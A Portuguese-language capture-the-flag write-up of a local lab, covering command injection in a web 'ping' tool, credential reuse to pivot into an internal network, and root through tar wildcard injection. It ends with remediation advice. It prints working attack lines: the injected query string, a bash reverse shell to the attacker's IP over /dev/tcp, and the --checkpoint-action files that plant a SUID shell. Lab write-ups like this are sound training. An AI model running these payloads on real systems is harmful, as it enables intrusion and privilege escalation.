









<div align="center">


</div>

```bash
gabi@cyber-lab:~$ cat challenge.meta
```
```json
{
  "ctf": "Tribo Tecnologia - Linux",
  "pontos": 200,
  "sha256": "6807D54F67A456E5367D190534C4DB6944111ACC088419EA022D7E26CD7F6339",
  "ambiente": "laboratório local (VirtualBox) — Kali Linux atacando 2 VMs",
  "topologia": "Kali → Host-only (192.168.56.0/24) → DMZ (web01, .56.10) → Internal Network (192.168.57.0/24) → host interno (app02, .57.20)",
  "escopo": "apenas os ativos do laboratório, sem ataques destrutivos"
}
```

> Red teamer contratada para avaliar o único ativo alcançável — o servidor de perímetro (DMZ) — e investigar se, a partir dele, é possível alcançar um sistema interno que não deveria estar exposto. Objetivo: root na DMZ, movimentação lateral, root no host interno, flag final.

A topologia simula um cenário comum em empresa real: um host dual-homed na borda, com uma perna na DMZ e outra numa rede que "não deveria" ser alcançável de fora. O desafio inteiro gira em torno de confirmar — na prática, não na teoria — se essa segmentação segura.

---

## 🧠 mentalidade geral

O desafio avisava desde o início: *"nem tudo que parece vulnerável é o caminho, e nenhuma escalação é óbvia."* Isso se confirmou várias vezes ao longo da caçada — e reconhecer um falso positivo rápido foi tão importante quanto achar a vulnerabilidade real. Documentar os dois com o mesmo cuidado foi o que manteve o processo eficiente, em vez de girar em círculos atrás de pistas falsas.

- 🚩 `http-open-proxy` do Nmap sinalizou a porta 8080 como proxy aberto → testado manualmente com `curl -x`, não confirmou: **falso positivo** do script de detecção, não do serviço real.
- 🚩 LinPEAS apontou o kernel como `potentially vulnerable` a uma CVE recente → sem exploit público disponível (`searchsploit` vazio) e com a própria ressalva do scanner de que o status de backport era incerto, descartado como heurística não confirmada.
- 🚩 Grupo `lxd`, citado pelo LinPEAS como vetor "root-equivalent", existia no sistema — mas estava **vazio**, e o caminho de auto-instalação via D-Bus que eu tentei forçar não estava configurado como o artigo de referência descrevia.
- ✅ O vetor real — wildcard injection num script de backup agendado — **não apareceu em nenhuma varredura automatizada**. Foi achado enumerando permissões SGID manualmente, seguindo uma pista textual repetida em dois dashboards diferentes: *"rotina de backup — agendada"*.

Padrão que se repetiu: a pista mais "gritante" (flag do Nmap, aviso do LinPEAS) quase sempre levava a um beco sem saída, enquanto o vetor real exigia juntar duas pistas fracas e aparentemente desconectadas — um texto decorativo num dashboard e uma permissão de arquivo incomum.

---

## 🗺️ kill chain

```mermaid
flowchart LR
    A["🔍 Reconhecimento
    T1595 · host discovery"] --> B["🕸️ Enumeração
    T1046 · gobuster, curl"]
    B --> C["💉 RCE no Perímetro
    T1190 · ping.php"]
    C --> D["🔑 Credenciais & Pivô
    T1552 · config.php"]
    D --> E["🐾 Movimentação Lateral
    T1021 · SSH reciclado"]
    E --> F["👑 Root no Host Interno
    T1548 · tar wildcard"]

    style A fill:#0d0221,stroke:#9333ea,color:#fff
    style B fill:#0d0221,stroke:#9333ea,color:#fff
    style C fill:#0d0221,stroke:#a855f7,color:#fff
    style D fill:#0d0221,stroke:#a855f7,color:#fff
    style E fill:#0d0221,stroke:#c084fc,color:#fff
    style F fill:#2d0a4e,stroke:#e879f9,color:#fff
```



---

## 1️⃣ reconhecimento

Antes de tocar em qualquer porta, o primeiro passo foi confirmar quem estava vivo na rede e separar ruído de alvo real. Uma captura ARP na rede Host-only revelou três hosts: o gateway virtual (`.1`), o alvo declarado da DMZ (`192.168.56.10`) e um terceiro IP inesperado (`192.168.56.100`) — tratado como possível distração e não perseguido, já que o briefing declarava apenas o `.10` como alvo alcançável.

Varredura completa de portas e versões no alvo confirmado:

```bash
nmap -sC -sV -p- -T4 192.168.56.10
```



| Porta | Serviço | Observação |
| --- | --- | --- |
| 22/tcp | OpenSSH 9.6p1 | padrão |
| 80/tcp | nginx 1.24.0 | site institucional "Tribo Tecnologia" |
| 8080/tcp | Apache 2.4.58 | sinalizado como possível *open proxy* |

A flag `http-open-proxy` motivou um teste manual com `curl -x`, que **não confirmou** comportamento de proxy — a porta 8080 apenas respondia com sua própria página, independente do destino informado. Falso positivo descartado, mas a porta ficou marcada como prioridade pelo conteúdo customizado que servia.

---

## 2️⃣ enumeração de serviços

A porta 80 foi descartada rápido: código-fonte limpo, sem comentários reveladores, e um `gobuster` com wordlist comum não achou nada além de `index.html`. Site institucional raramente é o caminho — a porta com conteúdo customizado (login, ferramenta interna) é onde costuma ficar a superfície de ataque real.

```bash
gobuster dir -u http://192.168.56.10:8080 -w /usr/share/wordlists/dirb/common.txt -x php,txt,bak,json
```

Essa varredura na porta 8080 revelou um diretório `/tools/` com listagem aberta, contendo um arquivo só: `ping.php`. O nome — uma ferramenta web de "ping" — é sinal clássico de que o backend provavelmente repassa o input do usuário direto para um comando de shell do sistema operacional, sem sanitização.

---

## 3️⃣ exploração inicial (perímetro)

Antes de confirmar a hipótese de injeção, o teste foi feito com o payload mais inofensivo possível: um comando de leitura (`whoami`) encadeado ao comando legítimo de ping, nunca algo destrutivo.

```bash
curl "http://192.168.56.10:8080/tools/ping.php?host=127.0.0.1;cat+../config.php"
```



A resposta trouxe o resultado normal do ping **e** o conteúdo bruto de `config.php` logo abaixo — confirmação de execução de comando do sistema operacional sem sanitização (**T1190 — Exploit Public-Facing Application**), e de brinde, a primeira credencial da caçada.

A partir daí, o vetor foi escalado de um `curl` por comando (lento, um disparo por vez) para uma shell reversa interativa completa:

```bash
# listener no Kali
nc -lvnp 4444

# payload injetado via ping.php
host=127.0.0.1;bash -c 'bash -i >& /dev/tcp/<IP_KALI>/4444 0>&1'
```



A shell caiu como `www-data@web01`, upgradada para TTY interativo com `python3 -c 'import pty; pty.spawn("/bin/bash")'`. Uma primeira olhada em `/etc/passwd` já revelou os usuários com shell válido do sistema — `fiap` e `jdias` — informação que viria a ser decisiva mais tarde.

---

## 4️⃣ pós-exploração no perímetro

Com RCE confirmado, o objetivo passou a ser mapear o host por dentro: outras credenciais soltas, e principalmente, interfaces de rede que revelassem rotas para além do que o Nmap já tinha mostrado de fora.

A credencial encontrada em `config.php` (**T1552.001 — Credentials in Files**) apontava para um banco escutando só em `localhost` — sem acesso direto, mas guardada como candidata a reciclagem contra outros serviços.

A descoberta decisiva veio de `ip a`, rodada já na shell interativa:

```bash
ip a
```



```
enp0s3: 192.168.56.10/24   ← rede Host-only (DMZ, já conhecida)
enp0s8: 192.168.57.10/24   ← segunda interface, rede interna
```

O `web01` era **dual-homed** — uma perna na DMZ, outra na rede interna `192.168.57.0/24`. Essa é exatamente a rota de pivô que o briefing do desafio insinuava existir desde o início.

---

## 5️⃣ movimentação lateral

Sem rota direta do Kali para a rede interna, todo o reconhecimento daqui pra frente precisou acontecer de dentro do host já comprometido — nativo em bash, já que ferramentas como `nmap`/`gobuster` não estavam disponíveis ali.

```bash
for i in $(seq 1 254); do (ping -c1 -W1 192.168.57.$i &>/dev/null && echo "192.168.57.$i ativo") & done; wait
```

Isso revelou `192.168.57.20` (apelidado `app02`) como o host interno-alvo, com as portas 22 e 80 abertas (a 80 se mostrou um dashboard puramente decorativo, sem backend real por trás).

O passo decisivo foi testar a credencial de banco de dados — já descartada contra o SSH e o portal do perímetro — contra o SSH do host interno:

```bash
ssh jdias@192.168.57.20
```



A senha funcionou — reciclagem de credencial entre a conta de banco de dados e a conta de sistema `jdias` (**T1021.004 — SSH**, **T1078 — Valid Accounts**). Lição à parte: uma credencial que falha num contexto não deve ser descartada para outros — reaproveitamento de senha entre camadas é extremamente comum em ambientes reais, e foi exatamente o que aconteceu aqui.

A flag de usuário já estava esperando na home:



---

## 6️⃣ escalação de privilégio (host interno)

A estratégia aqui foi enumerar sistematicamente todos os vetores clássicos antes de assumir que algum deles era o caminho — tratando cada descarte como progresso, não como fracasso.

### vetores testados e descartados

| Vetor | Resultado |
| --- | --- |
| `sudo -l` | `jdias` sem entrada no sudoers |
| SUID (`find -perm -4000`) | apenas binários padrão do Ubuntu |
| Capabilities (`getcap -r /`) | apenas `ping`, `mtr`, módulos padrão |
| CVE de kernel (LinPEAS) | sem exploit público disponível |
| Grupo `lxd` | grupo existente, mas vazio |
| Reciclagem de senha para `fiap` | falhou — `fiap` está no grupo `sudo`, mas sem credencial conhecida |

### o vetor real: wildcard injection em script de backup

Dois dashboards diferentes mencionavam "rotina de backup — agendada a cada 5 minutos". Uma varredura por binários **SGID**, combinada com a listagem de `/usr/local/sbin/`, revelou `run_backup.sh`, de propriedade do `root`, com permissão de **leitura** (mas não execução) para "outros" — suficiente para ler o conteúdo:

```bash
#!/bin/bash
cd /home/jdias/reports || exit 1
/usr/bin/tar czf /opt/backups/reports-latest.tgz *
```

O script usa `*` (glob do shell) dentro de um diretório de propriedade do `jdias` — e o GNU `tar` interpreta qualquer argumento iniciado por `--` como **opção**, não como nome de arquivo. Isso é uma **wildcard injection** clássica (**T1548.001 — Abuse Elevation Control Mechanism**, CWE-88): criando arquivos com nomes de flags do `tar`, é possível injetar `--checkpoint-action=exec=<comando>`, que o `tar` executa durante o processamento — com o privilégio de quem roda o script via agendamento (root).

```bash
cd ~/reports
echo '#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash' > payload.sh
chmod +x payload.sh

touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh payload.sh"
```



Após o ciclo de agendamento (~5 minutos), o `tar` processou os arquivos armadilhados e executou o payload como root, gerando uma cópia SUID do bash:



```
-rwsr-sr-x 1 root root 1446024 /tmp/rootbash
```

```bash
/tmp/rootbash -p
id
```



O `-p` foi essencial: sem ele, o bash detecta que o UID real (`jdias`) é diferente do UID efetivo (`root`) e automaticamente descarta o privilégio por segurança própria.

---

## 🚩 flags

| Flag | Origem | Nível |
| --- | --- | --- |
| `FLAG{B-user-5d2e77}` | `/home/jdias/user.txt` | usuário (checkpoint intermediário) |
| `FLAG{B-root-e0a4f9}` | `/root/root.txt` | **root — flag final** 🎉 |

---

## 🛡️ lições aprendidas / remediação

| Achado | Recomendação |
| --- | --- |
| `ping.php` executa comando do SO sem sanitização | Eliminar `shell_exec`/similar; usar função nativa de ping ou, no mínimo, `escapeshellarg()` + allowlist de caracteres |
| `web01` dual-homed sem controles adicionais | Mesmo com DMZ configurada, um host com perna na rede interna anula a segmentação se comprometido — adicionar firewall/ACL entre DMZ e rede interna, não confiar só na topologia |
| Credencial em texto puro em `config.php`, reciclada entre banco de dados e conta de sistema | Usar gerenciador de segredos (vault) e política de senha única por serviço/conta |
| `run_backup.sh` com wildcard (`tar czf ... *`) em diretório gravável pelo usuário | Usar `tar -- *` ou enumerar arquivos explicitamente; nunca expandir glob não controlado como argumento de comando privilegiado |
| Usuário `fiap` no grupo `sudo` sem necessidade evidente | Revisar e aplicar princípio do menor privilégio em contas de serviço |
| Nenhum alerta disparado durante a injeção de comando ou a escalada via `tar` | Instrumentar auditoria (`auditd` ou equivalente) para execuções incomuns de `tar` com flags não padrão, e para processos filhos inesperados de serviços web |

---

<div align="center">

🐱‍💻 *caçada documentada por [TheKittzy](https://github.com/TheKittzy) — ética em primeiro lugar, curiosidade sempre* 🔐

</div>
